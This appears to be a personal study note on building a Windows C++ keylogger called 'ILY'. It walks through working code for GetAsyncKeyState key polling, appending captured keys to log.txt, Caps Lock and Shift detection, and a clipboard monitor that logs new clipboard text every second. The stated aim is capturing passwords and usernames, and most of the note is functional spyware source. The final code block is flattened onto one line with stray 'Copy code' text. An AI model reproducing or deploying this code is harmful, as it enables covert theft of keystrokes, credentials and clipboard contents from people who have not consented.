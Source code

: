 **Title:** ILY - Keylogger
**Tags:** [[ILY - Easy]]
**Topics:** #CPP #Keylogger

---
# ILY - Keylogger
# General
## First Iteration
### Keylogger
#### Function: ``startLogging()``
It is not possible to know which key has been pressed after it happened, so the only way to detect it is to check all possible valid keys in the ASCII symbols every time. Due to our goal of capturing passwords and usernames, the last valid symbol is "¡", which has the number 173 in the ASCII standard.

Now that we are checking all possible characters, it is important to determine how we are going to get that “alarm” informing us that a key on the keyboard has been pressed. This is where `GetAsyncKeyState()` comes into play.

`GetKeyState()` Will return that a key has been pressed only if it happens in the same “instant”; otherwise, it will not detect it. This isn't really convenient in our case, so we will use `GetAsyncKeyState()` instead, because it can retrieve the state of a key pressed at any time.

It's essential to understand how `GetAsyncKeyState()` works and the best way to implement it. You will see three types of implementations:
- `GetAsyncKeyState(key) == -32767`: Verifies if a key has been pressed and released.
- `GetAsyncKeyState(key) & 0x0001`: Verifies if a key has been pressed since the last call.
- `GetAsyncKeyState(key) & 0x8000`: Verifies if a key is currently being pressed.
[//]: Note that (0xFFFF8001)Hexa == (-32767)Ca2

```ad-question
I do not fully understand why the keylogger only works correctly when I set `0xFFFF8001` and why it captures the key while I maintain it pressed.
```

Finally, for readability purposes, we want to process special characters to log them in a special format. Otherwise, we just log the key directly.

```c++
for (char key = 8; key<=173; key++) {
	if (GetAsyncKeyState(key) == 0xFFFF8001) {
	    if (not specialKey(key)) {
            string str(1, key);
            save(str);
        }
    }
}
```

#### Function: ``save(const string& input)``
Firstly, we need to create a new datatype to work with files. For this reason, we must include `#include <iostream>` and `#include <fstream>`.

```ad-info
**fstream**
This data type represents the file stream generally, and has the capabilities of both ofstream and ifstream which means it can create files, write information to files, and read information from files.
```

Afterward we will have to open the file to append the `input` in it. 
`fstream` will create the file if it does not exist, and if any no problem occurs, we will append the input. It is good practice to close the file every time after performing file operations.

```c++
void save(const string& input) {
    fstream LogFile;
    
    LogFile.open("log.txt", fstream::app);  // If it does not exists, it will create it.
    
    if (LogFile.is_open()) {
		LogFile << input;
		LogFile.close();
	}
}
```

## Second Iteration
### Detect Upper and Lower cases
``GetKeyState(VK_CAPITAL)`` returns a short where the least significant bit (LSB) represents the toggle state. If the LSB is 1, Caps Lock is active.
```c++
bool isCapsLock() { 
	return (GetKeyState(VK_CAPITAL) & 1) != 0; 
}
```

``GetKeyState(VK_SHIFT)`` Returns a short where the most significant bit (MSB) is set if the key is currently being pressed. The value 0x8000 corresponds to this MSB, indicating the physical press of the key.
```c++
bool isShift() { 
	return (GetKeyState(VK_SHIFT) & 0x8000) != 0; 
}
```

### Clipboard Monitoring
The clipboard monitoring functionality is designed to capture and log text data from the system clipboard periodically. This process involves checking the clipboard contents at regular intervals and logging any changes. Here’s a detailed explanation of how the clipboard monitoring is implemented:

#### Function: `getClipboardText()`
The `getClipboardText` function retrieves the text currently stored in the system clipboard. It utilizes the Windows API to access the clipboard and fetches any Unicode text available.

- **Opening the Clipboard**: The function begins by calling `OpenClipboard(nullptr)`. This function attempts to open the clipboard for examination and prevents other applications from modifying it until it is closed.
- **Fetching Data**: The function uses `GetClipboardData(CF_UNICODETEXT)` to retrieve the handle to the clipboard data in Unicode text format. If no text is available, it returns an empty string.
- **Converting Data**: If data is present, the function locks the global memory to access the text using `GlobalLock(hData)`, converting the wide character string (`wstring`) to a standard string (`string`).
- **Closing the Clipboard**: After retrieving the text, the function releases the global memory lock using `GlobalUnlock(hData)` and closes the clipboard using `CloseClipboard()`.

```c++
string getClipboardText() {
    string text = "";

    if (!OpenClipboard(nullptr)) {
        return text;
    }

    HANDLE hData = GetClipboardData(CF_UNICODETEXT);
    if (hData != nullptr) {
        wchar_t* pwszText = static_cast<wchar_t*>(GlobalLock(hData));
        if (pwszText != nullptr) {
            wstring ws(pwszText);
            text = string(ws.begin(), ws.end());
            GlobalUnlock(hData);
        }
    }
    CloseClipboard();

    return text;
}
```


#### Function: `clipboardLogger(int key, atomic<bool>& running)`

The `clipboardLogger` function is responsible for periodically checking the clipboard for new content and logging it using an encryption mechanism.

- **Periodic Check**: It continuously runs in a loop controlled by an atomic boolean `running`. It sleeps for 1 second (`Sleep(1000)`) between checks to minimize system resource usage.
- **Detecting Changes**: It compares the current clipboard content with the previously logged content. If there is new content that differs from what was previously stored, it logs this content.
- **Logging and Encryption**: New clipboard content is logged by calling the `save` function, which encrypts the content using a simple character shift.

cpp

Copy code

`void clipboardLogger(int key, atomic<bool>& running) {     string previousClipboardContent;      while (running) {         try {             Sleep(1000);              string currentClipboardContent = getClipboardText();              if (!currentClipboardContent.empty() && currentClipboardContent != previousClipboardContent) {                 save("\n[+]Clipboard: " + currentClipboardContent + "\n", key);                 previousClipboardContent = currentClipboardContent;             }         } catch (const exception& e) {             cerr << "Clipboard error: " << e.what() << endl;         }     } }`